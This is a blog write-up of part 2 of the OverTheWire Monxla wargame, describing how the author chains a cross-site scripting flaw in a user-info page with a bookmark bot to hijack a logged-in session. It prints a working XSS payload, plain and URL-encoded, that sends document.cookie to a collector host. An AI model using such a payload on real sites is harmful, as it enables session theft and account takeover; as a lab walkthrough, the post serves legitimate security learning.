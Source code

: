 ```yaml
---
layout: post
title: "OverTheWire Monxla Part 2"
date: "2012-11-25T05:05:00-05:00"
comments: true
categories:
 - overthewire
 - wargames
 - linux
 - monxla
---
```


In the previous post, I showed how to get the PDF that outlines the services running on the Monxla VM image. This article will continue where that one left off.

<!-- more -->

Firstly, the PDF explains that there are 2 virtual hosts enabled on the machine. To configure my machine for these virtual hosts, I added these lines to my /etc/hosts file: 

```
192.168.188.134 nasenko.otw
192.168.188.134 honeylink.otw
```

There are 2 sites immediately available to you:

* The HoneyLink site is, so far, just a convenience for the wargame, so you don't have to setup your own HTTP server.  It gives you a prefix URL, that you can prepend anything you want to the end.  It will then show you the responses as they come in. {% img /images/monxla2_2.png %}
* The Nasenko home page. This is what appears to be the main application that we are attacking. It has a Bookmark Service, and the Notes service, which were referenced in the PDF, immediately visible. {% img /images/monxla2_1.png %}

After poking around a bit, I found that you are unable to access the Notes service, since you're not logged in. Per the blog article on the main page, login attempts are disabled. On the Bookmarks page, it says that the submitted bookmarks are being visited routinely. These two statements combined immediately made me think of using a [Session Hijacking](https://en.wikipedia.org/wiki/Session_hijacking) attack to steal the session of the user already logged in, checking the submitted bookmarks. 

To get started with my attack, I tried submitting several bookmarks, which were always rejected.  There was some sort of filtering going on, on the server side.  For some reason, I decided to try submitting the Nasenko site itself, and saw that it was actually accepted.  This means that I could at least submit data, as long as it was from the same website.  From there, that made me start thinking about finding a [Cross-Site Scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability, so that I could redirect the traffic, and combine it with the Session Hijack attack. 

After searching for a bit, I found a Cross-Site Scripting vulnerability in the User Info page.  It wasn't cleanly filtering user input, so I was able to inject javascript into the "username" parameter. 

{% img /images/monxla2_3.png %}

To combine these two attacks, I crafted a URL that would use the Cross-Site Scripting attack to allow me to submit it from the proper host, as well as stealing the user's cookie: 

```
http://nasenko.otw/userinfo.php?username=<script>document.location='http://honeylink.otw/tH3zwj4P1z/cookie'+document.cookie;</script> 
```

However, due to some URL encoding issues (mainly the "+" splitting the parameter), I had to URL encode it using the [Burp Suite](http://portswigger.net/burp/): 

```
http://nasenko.otw/userinfo.php?username=%3c%73%63%72%69%70%74%3e%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%68%6f%6e%65%79%6c%69%6e%6b%2e%6f%74%77%2f%74%48%33%7a%77%6a%34%50%31%7a%2f%63%6f%6f%6b%69%65%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%3c%2f%73%63%72%69%70%74%3e
```

I submitted the URL to the Bookmark Service, and it gladly accepted it.  I then switched to the HoneyLink page, and clicked the "Refresh" button, and saw that my click had indeed been registered.  And lucky for me, it had the cookie listed:

{% img /images/monxla2_4.png %}

I then added a cookie with the stolen value. 

{% img /images/monxla2_5.png %}

When I then went to the Notes Service, which previously denied me access, I was able to view them. This meant it was successful. We successfully stole a valid user's session.

{% img /images/monxla2_6.png %}

